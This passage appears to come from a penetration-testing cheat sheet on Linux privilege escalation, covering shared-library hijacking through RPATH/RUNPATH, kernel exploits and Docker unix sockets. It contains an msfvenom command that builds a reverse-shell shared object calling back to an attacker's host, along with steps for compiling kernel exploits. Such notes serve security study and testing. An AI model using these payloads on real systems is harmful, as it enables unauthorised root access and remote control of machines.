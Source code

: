 ```bash
ldd /path/2/binary # check output
ldd /usr/bin/sudo
> ...
> libsudo_util.so.0 => /usr/libexec/sudo/libsudo_util.so.0 (0x00007f7a1f721000) # already an indicator that RPATH / RUNPATH was used
> ...
```

- was the binary compiled with `RPATH` or `RUNPATH` ?  

```bash
objdump -x /path/2/binary | grep RPATH
objdump -x /usr/bin/sudo | grep RUNPATH
> RUNPATH              /usr/libexec/sudo # sudo looks for libs there
```

#### Exploit

> Use `msfvenom` to generate a payload `.so` file  

```bash
msfvenom -a x64 -p linux/x64/shell_reverse_tcp LHOST=<yourIP> LPORT=<yourPort> -f elf-so -o sharedLib.so
```

For a privilege escalation to happen, the program must be run by a higher privileged user either manually, trough a trigger or via scheduled cronjob.

### Kernel exploits 

> Remember don't just compile and fire unknown payloads taken from the web!

```bash
# search in metasploit / exploitDB
searchsploit "linux kernel debian"
```

If exploit or shellcode is used -> check for requirements or compiling instructions in the readme or source directly!

Also compiling for other archs may be needed

```bash
gcc -m32 exploit.c -o exploit
```  

Sources for kernel exploits:
- [SecWiki-2020](https://github.com/SecWiki/linux-kernel-exploits)
- [ExploitDB](https://www.exploit-db.com/)
- [lucyoa](https://github.com/lucyoa/kernel-exploits)  

### Unix Sockets  

> Docker is (or at least *was* your friend) as docker binds to unix sockets (root permission) instead of tcp sockets (go for podman!)

If security is not implemented correctly:  
